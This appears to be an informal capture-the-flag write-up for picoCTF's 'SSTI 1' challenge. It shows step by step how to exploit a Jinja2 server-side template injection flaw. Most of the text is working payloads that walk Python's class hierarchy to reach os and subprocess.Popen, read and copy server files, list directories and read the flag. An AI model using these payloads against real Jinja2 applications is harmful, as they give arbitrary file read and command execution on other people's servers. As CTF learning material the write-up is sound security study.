

### SSTI 1
https://play.picoctf.org/practice/challenge/492

try {{7*7}}, we got 49 result, so maybe ssti jinja python


confirm python jinja2


using `${{<%[%'"}}%\.` template with ssti vulnerabily will throw 500 


so, let exploit

1. After indentify jinja 2, we got some:

Access some objection using (),'',[] + .__class__ (example ().__class__)

Access parent class object using ().__class__ + .__bases__[0] 


Access oobject subclass using ().__class__ + .__bases__[0] + .__subclasses__()

We found os.popen, can be exploit this. let try


But, if wanna using this, we just find number of os.wrap_close on list, so sent it to intruder and bruteforcing this

using payload to brute forcing

```
{{().__class__.__bases__[0].__subclasses__()[1]}}
```

using `payload-generate.py` we got, os.wrap_close() on 132 position of this list


And `subprocess.Popen` on `356` request


Next, __init__ is initializing method, we using this to call __globals__ (globals return all method, module, ...)

using `().__class__ + .__bases__[0] + .__subclasses__()` + `.__init__.__globals__` we got payload 

`{{().__class__ + .__bases__[0] + .__subclasses__()[132].__init__.__globals__}}`

Let's try : 

```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__}}
```

and try complete payload
```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("app.py").read}}
```


readline to read first line of app.py



Use `subprocess.Popen` coppy `app.py` to new file `test.txt`

```python
{{[].__class__.__base__.__subclasses__()[356](["cp"].__add__(["app.py"]).__add__(["test.txt"]))}}
```


Using `132` read new file `test.txt`

 

using `sed -i 1d` to delete first row


read test.txt and confirm it deleted


```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__["o".__add__("s")].__dict__.listdir()}}
```

using `{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['__builtins__']['__import__']('os').listdir('.')}}` 

list dir


we see flag here, lets read using 132

`{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("flag").readline()}}`
Finally we got `picoCTF{s4rv3r_s1d3_t3mp14t3_....}`

### reference
https://www.arashparsa.com/gactf/
